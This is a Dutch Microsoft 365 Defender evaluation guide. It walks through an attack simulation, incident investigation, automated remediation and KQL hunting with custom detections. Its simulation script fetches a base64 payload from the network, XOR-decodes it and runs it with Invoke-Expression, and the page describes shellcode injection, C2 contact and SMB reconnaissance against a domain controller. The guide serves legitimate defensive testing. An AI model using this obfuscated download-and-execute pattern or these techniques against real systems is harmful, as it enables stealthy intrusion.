

# <a name="run-your-microsoft-365-defender-attack-simulations"></a>Uw Microsoft 365 Defender-aanvalssimulaties uitvoeren

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


|[](m365d-pilot-plan.md)<br/>[Planning](m365d-pilot-plan.md)|[](prepare-m365d-eval.md)<br/>[Voorbereiding](prepare-m365d-eval.md)|<br/>Een aanval simuleren|[](m365d-pilot-close.md)<br/>[Sluiten en samenvatten](m365d-pilot-close.md)|
|--|--|--|--|
|||*U bent er!*||

U zit momenteel in de fase van de aanvalssimulatie.

Nadat u de testomgeving hebt voorbereid, is het tijd om de microsoft 365 Defender-incidentbeheer en geautomatiseerde onderzoeks- en herstelmogelijkheden te testen. We helpen u bij het simuleren van een geavanceerde aanval die gebruik maakt van geavanceerde technieken om te verbergen voor detectie. Met de aanval worden geopende SMB-sessies (Server Message Block) op domeincontrollers opgeslagen en worden recente IP-adressen van apparaten van gebruikers opgehaald. Deze categorie aanvallen bevat meestal geen bestanden die zijn gedropt op het apparaat van het slachtoffer, maar alleen in het geheugen. Ze 'leven van het land' door bestaande systeem- en beheerhulpmiddelen te gebruiken en hun code in systeemprocessen te injecteren om hun uitvoering te verbergen, met dergelijk gedrag kunnen ze detectie omzeilen en blijven ze op het apparaat.

In deze simulatie begint ons voorbeeldscenario met een PowerShell-script. Een gebruiker kan worden misleid bij het uitvoeren van een script. Of het script kan worden uitgevoerd vanaf een externe verbinding met een andere computer vanaf een eerder geïnfecteerd apparaat, de aanvaller die lateraal probeert te bewegen in het netwerk. Detectie van deze scripts kan lastig zijn omdat beheerders ook vaak scripts op afstand uitvoeren om verschillende beheeractiviteiten uit te voeren.


Tijdens de simulatie injecteert de aanval shellcode in een schijnbaar onschuldig proces. Voor het scenario is het gebruik van notepad.exe. We hebben dit proces gekozen voor de simulatie, maar aanvallers zouden zich waarschijnlijk richten op een langlopende systeemprocedure, zoals svchost.exe. De shellcode gaat vervolgens verder met het contact opnemen met de C2-server (Command-and-Control) van de aanvaller om instructies te ontvangen over hoe u verder kunt gaan. Met het script wordt geprobeerd verkenningsquery's uit te voeren op de domeincontroller (DC). Met Verkenning kan een aanvaller informatie krijgen over recente aanmeldingsgegevens van gebruikers. Zodra aanvallers deze informatie hebben, kunnen ze lateraal in het netwerk naar een specifiek gevoelig account gaan

> [!IMPORTANT]
> Voor optimale resultaten volgt u de instructies voor de aanvalssimulatie zo goed mogelijk.

## <a name="simulation-environment-requirements"></a>Vereisten voor de omgeving van de simulatie

Aangezien u de testomgeving al hebt geconfigureerd tijdens de voorbereidingsfase, moet u ervoor zorgen dat u twee apparaten hebt voor dit scenario: een testapparaat en een domeincontroller.

1. Controleer of uw tenant [Microsoft 365 Defender heeft ingeschakeld.](m365d-enable.md#confirm-that-the-service-is-on)

2. Controleer de configuratie van uw testdomeincontroller:

   - Apparaat wordt uitgevoerd met Windows Server 2008 R2 of een nieuwere versie.
   - De testdomeincontroller naar [Microsoft Defender voor identiteit en](/azure/security-center/security-center-wdatp) extern beheer [inschakelen.](/windows-server/administration/server-manager/configure-remote-management-in-server-manager)
   - Controleer of [Microsoft Defender voor identiteits- en Microsoft Cloud App-beveiligingsintegratie](/cloud-app-security/mdi-integration) is ingeschakeld.
   - Er wordt een testgebruiker gemaakt op uw domein. Er zijn geen beheerdersmachtigingen nodig.

3. Testapparaatconfiguratie controleren:

   1. Apparaat wordt uitgevoerd met Windows 10 versie 1903 of een nieuwere versie.

   1. Testapparaat is verbonden met het testdomein.

   1. [Schakel Windows Defender Antivirus in.](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features) Zie dit [probleemoplossingsonderwerp](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)als u problemen hebt met het inschakelen van Windows Defender Antivirus.

   1. Controleer of het testapparaat is [onboarded bij Microsoft Defender voor Eindpunt)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

Als u een bestaande tenant gebruikt en apparaatgroepen implementeert, maakt u een speciale apparaatgroep voor het testapparaat en drukt u deze op het hoogste niveau in configuratie UX.

## <a name="run-the-attack-scenario-simulation"></a>De scenariosimulatie voor aanvallen uitvoeren

De scenariosimulatie van het aanvalsscenario uitvoeren:

1. Meld u aan bij het testapparaat met het testgebruikersaccount.

2. Open een Windows PowerShell-venster op het testapparaat.

3. Kopieer het volgende simulatiescript:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > Als u dit document opent in een webbrowser, kunt u problemen ondervinden bij het kopiëren van de volledige tekst zonder bepaalde tekens te verliezen of extra regel-onderbrekingen in te leiden. Download dit document en open het in Adobe Reader.

4. Plak en voer het gekopieerde script bij de prompt uit.

> [!NOTE]
> Als u PowerShell gebruikt met RDP (Remote Desktop Protocol), gebruikt u de opdracht Klembordtekst typen in de RDP-client omdat de sneltoets **Ctrl-V** of de methode voor het plakken met de rechtermuisknop mogelijk niet werkt. Recente versies van PowerShell accepteren deze methode soms ook niet, mogelijk moet u eerst kopiëren naar Kladblok in het geheugen, deze kopiëren in de virtuele computer en deze vervolgens in PowerShell plakken.

Een paar seconden later <i> wordtnotepad.exe</i> geopend. Er wordt een gesimuleerde aanvalscode in de notepad.exe. Houd het automatisch gegenereerde kladblok-exemplaar open om het volledige scenario te kunnen ervaren.

De gesimuleerde aanvalscode probeert te communiceren met een extern IP-adres (de C2-server simuleren) en probeert vervolgens via SMB een verkenningspoging te doen tegen de domeincontroller.

Wanneer dit script is voltooid, wordt er een bericht weergegeven op de PowerShell-console.

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

Als u de functie Automatisch incident en antwoord in actie wilt zien, houdt u het notepad.exe geopend. U ziet Automatisch incident en antwoord stoppen met het kladblokproces.

## <a name="investigate-an-incident"></a>Een incident onderzoeken

> [!NOTE]
> Voordat we u door deze simulatie leiden, bekijkt u de volgende video om te zien hoe incidentbeheer u helpt de gerelateerde waarschuwingen samen te delen als onderdeel van het onderzoeksproces, waar u deze kunt vinden in de portal en hoe het u kan helpen bij uw beveiligingsbewerkingen:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

Als u overschakelt naar het standpunt van de soc-analist, kunt u nu beginnen met het onderzoeken van de aanval in de microsoft 365-beveiligingscentrumportal.

1. Open de [portalwachtrij van het Microsoft 365-beveiligingscentrum](https://security.microsoft.com/incidents) vanaf elk apparaat.

2. **Navigeer naar Incidenten** in het menu.

    

3. Het nieuwe incident voor de gesimuleerde aanval wordt weergegeven in de incidentwachtrij.

    

### <a name="investigate-the-attack-as-a-single-incident"></a>De aanval als één incident onderzoeken

Microsoft 365 Defender correleert analyses en verzamelt alle gerelateerde waarschuwingen en onderzoeken van verschillende producten in één incidententiteit. Hierdoor wordt in Microsoft 365 Defender een breder aanvalsverhaal belicht, zodat de SOC-analist complexe bedreigingen kan begrijpen en beantwoorden.

De waarschuwingen die tijdens deze simulatie worden gegenereerd, worden gekoppeld aan dezelfde bedreiging en worden als gevolg hiervan automatisch samengevoegd als één incident.

Het incident weergeven:

1. Ga naar de **wachtrij Incidenten.**

   

2. Selecteer het nieuwste item door op de cirkel links van de naam van het incident te klikken. Een zijpaneel bevat aanvullende informatie over het incident, inclusief alle gerelateerde waarschuwingen. Elk incident heeft een unieke naam die het beschrijft op basis van de kenmerken van de waarschuwingen die het bevat.

   

   De waarschuwingen in het dashboard kunnen worden gefilterd op basis van servicebronnen: Microsoft Defender voor identiteit, Microsoft Cloud App-beveiliging, Microsoft Defender voor Eindpunt, Microsoft 365 Defender en Microsoft Defender voor Office 365.

3. Selecteer **De pagina Incident openen** voor meer informatie over het incident.

   Op de **pagina Incident** ziet u alle waarschuwingen en informatie over het incident. De informatie omvat de entiteiten en activa die betrokken zijn bij de waarschuwing, de detectiebron van de waarschuwingen (Microsoft Defender voor identiteit, EDR) en de reden waarom ze aan elkaar zijn gekoppeld. Als u de lijst met incidentenwaarschuwingen bekijkt, wordt de voortgang van de aanval weergegeven. In deze weergave kunt u de afzonderlijke waarschuwingen bekijken en onderzoeken.

   U kunt ook in **het rechtermenu** op Incident beheren klikken om het incident te taggen, aan uzelf toe te wijzen en opmerkingen toe te voegen.

   

   

### <a name="review-generated-alerts"></a>Gegenereerde waarschuwingen controleren

Laten we eens kijken naar enkele waarschuwingen die tijdens de gesimuleerde aanval zijn gegenereerd.

> [!NOTE]
> We lopen door slechts een paar waarschuwingen die tijdens de gesimuleerde aanval zijn gegenereerd. Afhankelijk van de versie van Windows en de Microsoft 365 Defender-producten die op uw testapparaat worden uitgevoerd, ziet u mogelijk meer waarschuwingen die in een iets andere volgorde worden weergegeven.


#### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint-edr"></a>Waarschuwing: Verdachte procesinjectie waargenomen (Bron: Microsoft Defender voor Endpoint EDR)

Geavanceerde aanvallers gebruiken geavanceerde en verborgen methoden om in het geheugen te blijven en zich te verbergen voor detectiehulpmiddelen. Een veelgebruikte techniek is om te werken vanuit een vertrouwd systeemproces in plaats van een schadelijke uitvoerbare, waardoor het moeilijk is voor detectiehulpmiddelen en beveiligingsbewerkingen om de schadelijke code te herkennen.

Om de SOC-analisten in staat te stellen deze geavanceerde aanvallen op te vangen, bieden diep geheugen sensoren in Microsoft Defender voor Eindpunt onze cloudservice een ongeëvenaarde zichtbaarheid in een verscheidenheid aan technieken voor codeinjectie voor meerdere processen. In de volgende afbeelding ziet u hoe Defender voor Eindpunt heeft gedetecteerd en gewaarschuwd bij de poging om code te <i>notepad.exe. </i>


#### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint-edr"></a>Waarschuwing: Onverwacht gedrag waargenomen door een proces zonder opdrachtregelargumenten (Bron: Microsoft Defender voor Eindpunt EDR)

Microsoft Defender voor eindpuntdetecties zijn vaak gericht op het meest voorkomende kenmerk van een aanvalstechniek. Deze methode zorgt voor duurzaamheid en verhoogt de lat voor aanvallers om over te schakelen naar nieuwere tactieken.

We gebruiken grootschalige leeralgoritmen om het normale gedrag van gangbare processen binnen een organisatie en wereldwijd vast te stellen en te kijken wanneer deze processen afwijkende gedragingen vertonen. Deze afwijkende gedragingen geven vaak aan dat overbodige code is geïntroduceerd en worden uitgevoerd in een anders vertrouwd proces.

In dit scenario vertoont <i>notepad.exe</i> abnormaal gedrag, waarbij communicatie met een externe locatie betrokken is. Dit resultaat is onafhankelijk van de specifieke methode die wordt gebruikt om de schadelijke code in te voeren en uit te voeren.

> [!NOTE]
> Omdat deze waarschuwing is gebaseerd op machine learning-modellen waarvoor extra back-endverwerking nodig is, kan het enige tijd duren voordat u deze waarschuwing in de portal ziet.

De waarschuwingsdetails bevatten het externe IP-adres, een indicator die u als draaipunt kunt gebruiken om het onderzoek uit te breiden.

Selecteer het IP-adres in de waarschuwingsprocesstructuur om de pagina MET IP-adresgegevens weer te geven.


In de volgende afbeelding ziet u de geselecteerde pagina MET IP-adresgegevens (klikken op IP-adres in de processtructuur Waarschuwing).


#### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a>Waarschuwing: Verkenning van gebruikers- en IP-adres (SMB) (Bron: Microsoft Defender voor identiteit)

Door een SMB-protocol (Server Message Block) te gebruiken, kunnen aanvallers recente gebruikerslogengegevens krijgen waarmee ze lateraal door het netwerk kunnen gaan om toegang te krijgen tot een specifiek gevoelig account.

In deze detectie wordt een waarschuwing geactiveerd wanneer de SMB-sessie-overzicht wordt uitgevoerd tegen een domeincontroller.


### <a name="review-the-device-timeline-microsoft-defender-for-endpoint"></a>De tijdlijn van het apparaat controleren [Microsoft Defender voor eindpunt]

Nadat u de verschillende waarschuwingen in dit incident hebt verkend, gaat u terug naar de pagina met incidenten die u eerder hebt onderzocht. Selecteer het **tabblad Apparaten** op de pagina met incidenten om de apparaten te bekijken die betrokken zijn bij dit incident, zoals gerapporteerd door Microsoft Defender voor Eindpunt en Microsoft Defender voor identiteit.

Selecteer de naam van het apparaat waarop de aanval is uitgevoerd om de entiteitspagina voor dat specifieke apparaat te openen. Op die pagina ziet u waarschuwingen die zijn geactiveerd en gerelateerde gebeurtenissen.

Selecteer het **tabblad Tijdlijn** om de tijdlijn van het apparaat te openen en alle gebeurtenissen en gedragingen op het apparaat in chronologische volgorde weer te geven, afgewisseld met de waarschuwingen die zijn opgeheven.


Het uitbreiden van een aantal interessantere gedragingen biedt nuttige details, zoals procesbomen.

Schuif bijvoorbeeld omlaag totdat u de meldingsgebeurtenis Verdachte **procesinjectie hebt waargenomen.** Selecteer de **powershell.exe** die is notepad.exe procesgebeurtenis eronder, om de volledige processtructuur voor dit gedrag weer te geven onder de grafiek **Gebeurtenis-entiteiten** in het zijdeelvenster. Gebruik de zoekbalk om zo nodig te filteren.


### <a name="review-the-user-information-microsoft-cloud-app-security"></a>De gebruikersgegevens controleren [Microsoft Cloud App Security]

Selecteer op de pagina Incident het tabblad **Gebruikers** om de lijst weer te geven met gebruikers die betrokken zijn bij de aanval. De tabel bevat aanvullende informatie over elke gebruiker, inclusief de prioriteitsscore voor **onderzoek van elke** gebruiker.

Selecteer de gebruikersnaam om de profielpagina van de gebruiker te openen, waar verder onderzoek kan worden uitgevoerd. [Lees meer over het onderzoeken van risicovolle gebruikers.](/cloud-app-security/tutorial-ueba#identify)


## <a name="automated-investigation-and-remediation"></a>Geautomatiseerd onderzoek en herstel

> [!NOTE]
>Voordat we u door deze simulatie leiden, bekijkt u de volgende video om vertrouwd te raken met wat geautomatiseerde zelfherstel is, waar u deze kunt vinden in de portal en hoe deze kan helpen bij uw beveiligingsbewerkingen:

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Ga terug naar het incident in de portal van het Microsoft 365-beveiligingscentrum. Op **het tabblad Onderzoeken** op de pagina **Incident** ziet u de geautomatiseerde onderzoeken die zijn gestart door Microsoft Defender voor identiteit en Microsoft Defender voor Eindpunt. In de onderstaande schermafbeelding wordt alleen het geautomatiseerde onderzoek weergegeven dat is geactiveerd door Defender voor Eindpunt. Standaard worden in Defender voor Eindpunt automatisch de artefacten in de wachtrij gesaneerd, wat herstel vereist.


Selecteer de waarschuwing die een onderzoek heeft geactiveerd om de pagina **Details van het onderzoek te** openen. U ziet de volgende details:

- Waarschuwing(s) die het geautomatiseerde onderzoek hebben geactiveerd.
- Beïnvloede gebruikers en apparaten. Als er indicatoren worden gevonden op extra apparaten, worden deze extra apparaten ook weergegeven.
- Lijst met bewijs. De entiteiten die zijn gevonden en geanalyseerd, zoals bestanden, processen, services, stuurprogramma's en netwerkadressen. Deze entiteiten worden geanalyseerd op mogelijke relaties met de waarschuwing en beoordeeld als goedaardig of schadelijk.
- Bedreigingen gevonden. Bekende bedreigingen die tijdens het onderzoek worden gevonden.

> [!NOTE]
> Afhankelijk van de tijdsinstelling wordt het geautomatiseerde onderzoek mogelijk nog uitgevoerd. Wacht enkele minuten totdat het proces is voltooid voordat u het bewijs verzamelt en analyseert en de resultaten bekijkt. Vernieuw **de pagina Onderzoeksdetails** om de meest recente resultaten te krijgen.


Tijdens het geautomatiseerde onderzoek heeft Microsoft Defender voor Eindpunt de notepad.exe geïdentificeerd, die is geïnjecteerd als een van de artefacten die moeten worden gesaneerd. Defender voor Eindpunt stopt automatisch de verdachte procesinjectie als onderdeel van de automatische herstelprocedure.

U kunt zien <i>notepad.exe</i> verdwijnen uit de lijst met lopende processen op het testapparaat.

## <a name="resolve-the-incident"></a>Het incident oplossen

Nadat het onderzoek is voltooid en is bevestigd dat het is gesaneerd, sluit u het incident.

Selecteer **Incident beheren.** Stel de status in op **Incident oplossen** en selecteer de relevante classificatie.

Wanneer het incident is opgelost, worden alle bijbehorende waarschuwingen gesloten in het Microsoft 365-beveiligingscentrum en in de gerelateerde portals.


Hiermee wordt de aanvalssimulatie voor de scenario's voor incidentbeheer en geautomatiseerd onderzoek en herstel afgerond. In de volgende simulatie kunt u proactief op zoek gaan naar potentieel schadelijke bestanden.

## <a name="advanced-hunting-scenario"></a>Scenario voor geavanceerd jagen

> [!NOTE]
> Voordat we u door de simulatie leiden, bekijkt u de volgende video om de geavanceerde zoekconcepten te begrijpen, te zien waar u deze kunt vinden in de portal en weet u hoe deze u kan helpen bij uw beveiligingsbewerkingen:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a>Vereisten voor de jachtomgeving

Er is één intern postvak en één apparaat vereist voor dit scenario. U hebt ook een extern e-mailaccount nodig om het testbericht te verzenden.

1. Controleer of uw tenant [Microsoft 365 Defender heeft ingeschakeld.](m365d-enable.md#confirm-that-the-service-is-on)
2. Identificeer een doelpostvak dat moet worden gebruikt voor het ontvangen van e-mail.
    a. Dit postvak moet worden gecontroleerd door Microsoft Defender voor Office 365 b. Het apparaat van vereiste 3 moet toegang krijgen tot dit postvak
3. Een testapparaat configureren: a. Zorg ervoor dat u Windows 10 versie 1903 of hoger gebruikt.
    b. Ga met het testapparaat naar het testdomein.
    c. [Schakel Windows Defender Antivirus in.](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features) Zie dit [probleemoplossingsonderwerp](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)als u problemen hebt met het inschakelen van Windows Defender Antivirus.
    d. [Onboard to Microsoft Defender for Endpoint](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

### <a name="run-the-simulation"></a>De simulatie uitvoeren

1. Verzend vanuit een extern e-mailaccount een e-mail naar het postvak dat is geïdentificeerd in stap 2 van de sectie testomgevingvereisten. Voeg een bijlage toe die is toegestaan via een bestaand e-mailfilterbeleid. Dit bestand hoeft niet schadelijk of uitvoerbaar te zijn. Voorgestelde bestandstypen zijn <i>.pdf,</i> <i>.exe</i> (indien toegestaan) of Office-document, zoals een Word-bestand.
2. Open de verzonden e-mail vanaf het apparaat dat is geconfigureerd zoals gedefinieerd in stap 3 van de sectie testomgevingvereisten. Open de bijlage of sla het bestand op het apparaat op.

#### <a name="go-hunting"></a>Ga op zoek

1. Open de security.microsoft.com portal.

2. Navigeer naar **> Advanced hunting.**

   

3. Maak een query die begint met het verzamelen van e-mailgebeurtenissen.

   1. Selecteer nieuw in het queryvenster.

   1. Dubbelklik in het schema op de tabel E-mailEvents.

      ```console
      EmailEvents
      ```

   1. Wijzig de tijd in de afgelopen 24 uur. Ervan uitgaande dat de e-mail die u hebt verzonden toen u de bovenstaande simulatie hebt uitgevoerd, de afgelopen 24 uur was, wijzigt u anders de periode.

      

   1. Voer de query uit. Mogelijk hebt u veel resultaten, afhankelijk van de omgeving voor de pilot.

      > [!NOTE]
      > Zie de volgende stap voor filteropties om het retourneren van gegevens te beperken.

      

        > [!NOTE]
        > Geavanceerde selectie geeft queryresultaten weer als tabelgegevens. U kunt er ook voor kiezen om de gegevens weer te geven in andere notatietypen, zoals grafieken.

   1. Bekijk de resultaten en kijk of u de e-mail kunt identificeren die u hebt geopend. Het kan tot 2 uur duren voordat het bericht wordt weergegeven in de geavanceerde jacht. Als de e-mailomgeving groot is en er veel resultaten zijn, kunt u de optie **Filters tonen** gebruiken om het bericht te vinden.

      In het voorbeeld is de e-mail verzonden vanuit een Yahoo-account. Klik op het pictogram yahoo.com onder de sectie SenderFromDomain en klik vervolgens op Toepassen om het geselecteerde **+** domein toe te voegen aan de query.   Gebruik het domein of e-mailaccount dat is gebruikt om het testbericht te verzenden in stap 1 van De simulatie uitvoeren om de resultaten te filteren. Voer de query opnieuw uit om een kleinere resultatenset te krijgen om te controleren of u het bericht uit de simulatie ziet.

      

      ```console
      EmailEvents
      | where SenderMailFromDomain == "yahoo.com"
      ```

   1. Klik op de resulterende rijen uit de query, zodat u de record kunt controleren.

      

4. Nu u hebt geverifieerd dat u het e-mailbericht kunt zien, voegt u een filter voor de bijlagen toe. Focus op alle e-mailberichten met bijlagen in de omgeving. In dit scenario richt u zich op binnenkomende e-mailberichten, niet op de e-mailberichten die vanuit uw omgeving worden verzonden. Verwijder alle filters die u hebt toegevoegd om uw bericht te zoeken en voeg '| where **AttachmentCount > 0** and **EmailDirection**  ==  **"Inbound""**

   In de volgende query ziet u het resultaat met een kortere lijst dan de eerste query voor alle e-mailgebeurtenissen:

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   ```

5. Voeg vervolgens de informatie over de bijlage (zoals: bestandsnaam, hashes) toe aan uw resultatenset. Neem deel aan de tabel **EmailAttachmentInfo** om dit te doen. De veelgebruikte velden voor deelname zijn in dit geval **NetworkMessageId** **en RecipientObjectId.**

   De volgende query bevat ook een extra regel '| **project-rename EmailTimestamp=Timestamp**" that'll help identify which timestamp was related to the email versus timestamps related to file actions that you'll add in the next step.

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   ```

6. Gebruik vervolgens de **SHA256-waarde** uit de tabel **EmailAttachmentInfo** om **DeviceFileEvents (bestandsacties** die zijn gebeurd op het eindpunt) te zoeken voor die hash. Het algemene veld hier is de SHA256-hash voor de bijlage.

   De resulterende tabel bevat nu details van het eindpunt (Microsoft Defender voor eindpunt), zoals de naam van het apparaat, welke actie is uitgevoerd (in dit geval gefilterd om alleen Bestandscreated-gebeurtenissen op te nemen) en waar het bestand is opgeslagen. De accountnaam die aan het proces is gekoppeld, wordt ook opgenomen.

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   | join DeviceFileEvents on SHA256
   | where ActionType == "FileCreated"
   ```

   U hebt nu een query gemaakt die alle binnenkomende e-mailberichten identificeert waarin de gebruiker de bijlage heeft geopend of opgeslagen. U kunt deze query ook verfijnen om te filteren op specifieke afzenderdomeinen, bestandsgrootten, bestandstypen, en ga zo maar door.

7. Functies zijn een speciaal type join, waarmee u meer TI-gegevens over een bestand kunt ophalen, zoals de aanwezigheidsgegevens, ondertekenaars en uitgevende e-mail. Gebruik de functie **FileProfile()** voor meer informatie over het bestand:

    ```console
    EmailEvents
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```

#### <a name="create-a-detection"></a>Een detectie maken

Nadat u een query hebt gemaakt die informatie  identificeert die u wilt laten weten als ze in de toekomst worden uitgevoerd, kunt u een aangepaste detectie maken op de query.

Met aangepaste detecties wordt de query uitgevoerd op basis van de frequentie die u hebt ingesteld. De resultaten van de query's maken beveiligingswaarschuwingen, op basis van de beïnvloede assets die u kiest. Deze waarschuwingen worden gecorreleerd aan incidenten en kunnen worden gekoppeld aan een andere beveiligingswaarschuwing die door een van de producten wordt gegenereerd.

1. Verwijder op de querypagina de regels 7 en 8 die zijn toegevoegd in stap 7 van de zoekinstructies gaan en klik op **Detectieregel maken.**

   

   > [!NOTE]
   > Als u op **Detectieregel maken** klikt en u syntaxisfouten in de query hebt, wordt de detectieregel niet opgeslagen. Controleer de query om er zeker van te zijn dat er geen fouten zijn.

2. Vul de vereiste velden in met de gegevens waarmee het beveiligingsteam inzicht krijgt in de waarschuwing, waarom deze is gegenereerd en welke acties u verwacht dat ze uitvoeren.

   

   Zorg ervoor dat u de velden helder invult om de volgende gebruiker een weloverwogen beslissing te geven over deze detectieregelwaarschuwing

3. Selecteer in deze waarschuwing welke entiteiten van invloed zijn. Selecteer in dit geval **Apparaat** en **Postvak.**

   

4. Bepaal welke acties moeten plaatsvinden als de waarschuwing wordt geactiveerd. Voer in dit geval een antivirusscan uit, hoewel andere acties kunnen worden uitgevoerd.

   

5. Selecteer het bereik voor de waarschuwingsregel. Aangezien deze query apparaten betreft, zijn de apparaatgroepen relevant in deze aangepaste detectie volgens microsoft Defender voor eindpuntcontext. Wanneer u een aangepaste detectie maakt die geen apparaten als beïnvloede entiteiten bevat, is het bereik niet van toepassing.

   

   Voor deze pilot kunt u deze regel beperken tot een subset testapparaten in uw productieomgeving.

6. Selecteer **Maken**. Selecteer vervolgens **Aangepaste detectieregels** in het navigatiedeelvenster.

   

   

   Op deze pagina kunt u de detectieregel selecteren, waarmee een detailpagina wordt geopend.

   

### <a name="additional-advanced-hunting-walk-through-exercises"></a>Extra geavanceerde loop-through-oefeningen voor de jacht

Voor meer informatie over geavanceerd zoeken, worden in de volgende webcasts de mogelijkheden van geavanceerd zoeken in Microsoft 365 Defender besleurd om kruiskolomquery's te maken, naar entiteiten te draaien en aangepaste detecties en herstelacties te maken.

> [!NOTE]
> Wees voorbereid met uw eigen GitHub-account om de zoekquery's in uw testlabomgeving uit te voeren.

|Title|Beschrijving|MP4 downloaden|Bekijken op YouTube|CSL-bestand dat u wilt gebruiken|
|---|---|---|---|---|
|Aflevering 1: KQL-fundamentals|We behandelen de basisbeginselen van geavanceerde zoekmogelijkheden in Microsoft 365 Defender. Meer informatie over beschikbare geavanceerde zoekgegevens en basis-syntaxis en operatoren van KQL.|[MP4](https://aka.ms/MTP15JUL20_MP4)|[YouTube](https://youtu.be/0D9TkGjeJwM)|[Aflevering 1: CSL-bestand in Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl)|
|Aflevering 2: Joins|We gaan verder met het leren van gegevens in geavanceerde zoekprocessen en het samenbrengen van tabellen. Meer informatie over inner,outer, unique en semi joins en de nuances van de standaard Kusto innerunique join.|[MP4](https://aka.ms/MTP22JUL20_MP4)|[YouTube](https://youtu.be/LMrO6K5TWOU)|[Aflevering 2: CSL-bestand in Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl)|
|Aflevering 3: Gegevens samenvatten, draaien en visualiseren|Nu we gegevens kunnen filteren, manipuleren en joinen, is het tijd om te beginnen met het samenvatten, kwantificeren, draaien en visualiseren. In deze aflevering behandelen we de samenvattende operator en enkele berekeningen die u kunt uitvoeren tijdens het duiken in extra tabellen in het geavanceerde schema voor de jacht. We veranderen onze gegevenssets in grafieken waarmee we de analyse kunnen verbeteren.|[MP4](https://aka.ms/MTP29JUL20_MP4)|[YouTube](https://youtu.be/UKnk9U1NH6Y)|[Aflevering 3: CSL-bestand in Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl)|
|Aflevering 4: Laten we op zoek gaan! KQL toepassen op het bijhouden van incidenten|Tijd om wat activiteiten van de aanvaller bij te houden! In deze aflevering gebruiken we ons verbeterde begrip van KQL en geavanceerde jacht in Microsoft 365 Defender om een aanval bij te houden. Lees enkele tips en trucs die in het veld worden gebruikt om activiteiten van aanvallers bij te houden, waaronder de ABC's van cyberbeveiliging en hoe u deze kunt toepassen op incidentrespons.|[MP4](https://aka.ms/MTP5AUG20_MP4)|[YouTube](https://youtu.be/2EUxOc_LNd8)|[Aflevering 4: CSL-bestand in Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl)|
|

## <a name="next-step"></a>Volgende stap

| <br>[Slotfase en overzichtsfase](m365d-pilot-close.md)|Analyseer uw testresultaat van Microsoft 365 Defender, presenteert deze aan uw belanghebbenden en zet de volgende stap.
|:-----|:-----|
